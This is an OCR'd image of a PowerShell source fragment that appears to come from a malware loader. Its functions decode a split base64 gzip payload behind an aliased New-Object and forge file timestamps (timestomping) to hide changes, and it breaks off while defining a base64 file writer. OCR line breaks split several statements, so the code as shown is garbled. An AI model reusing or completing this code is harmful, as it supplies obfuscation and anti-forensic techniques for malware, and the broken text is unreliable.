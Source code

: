 if($q36){


         exit


}





function dc($s){


         sal
n New-Object;


         $data
= [System.Convert]::FromBase64String("H4sIAAAAAAA" + $s);


         $ms
= n System.IO.MemoryStream;


         $ms.Write($data,
0, $data.Length);


         $ms.Seek(0,0)
| Out-Null;


         return
(n System.IO.StreamReader(n System.IO.Compression.GZipStream($ms,
[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd();


};





function updt($t, $b){


         (ls
$t).LastWriteTime =  (ls
$b).LastWriteTime


         (ls
$t).CreationTime = (ls $b).CreationTime


         (ls
$t).LastAccessTime = (ls $b).LastAccessTime


}





function wb64($path, $b64){
